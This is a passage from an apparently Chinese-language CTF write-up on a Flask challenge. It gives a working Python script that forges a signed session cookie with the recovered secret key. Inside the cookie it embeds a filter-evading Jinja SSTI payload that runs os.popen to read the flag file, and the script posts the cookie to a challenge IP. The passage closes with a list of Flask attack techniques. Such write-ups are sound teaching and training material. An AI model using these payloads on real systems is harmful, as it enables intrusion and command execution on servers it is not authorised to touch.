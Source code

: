 题目渲染返回Result，打SSTI，我们设置result为ssti的payload

这个位置有点卡住了，开始直接把payload放到session赋值打，出不来

原谅我太菜了，突然想起session一般都是一些加密的东西，所以应该是flask的session伪造，将session伪造加密后直接打进去。

flask的session加密和解密脚本：https://github.com/noraj/flask-session-cookie-manager/blob/master/flask_session_cookie_manager3.py



```python
import requests
import zlib
from itsdangerous import base64_decode
import ast
from flask.sessions import SecureCookieSessionInterface

secret_key = 'Guess_fl4gName'


class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key

def session_cookie_encode(secret_key, session_cookie_structure):
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error]{}".format(e)


if __name__ == "__main__":
    ssti = '''{%set result = url_for["__globa""ls__"]["__buil""tins__"]["__i""mport__"]("o""s")["po""pen"]("cat Flag_is_HereeE")["rea""d"]()%}'''
    payload = "{'username':'%s'}"%ssti
    res = session_cookie_encode(secret_key,payload)
    print(res)
    url = 'http://47.93.210.59:30002'
    r = requests.post(url = url+'/ping',data={'url':'http://1.117.171.248'},cookies={'session':res})
    print(r.content)
```

总结一下吧：

关于flask的考点：

>1.flask的pin码构成（2022*CTF出现过）
>
>2.经典的flask的SSTI打
>
>3.flask的session伪造
>
>https://blog.csdn.net/solitudi/article/details/107746711
>
>4.flask的unicode字符欺骗
>
>5.flask的条件竞争
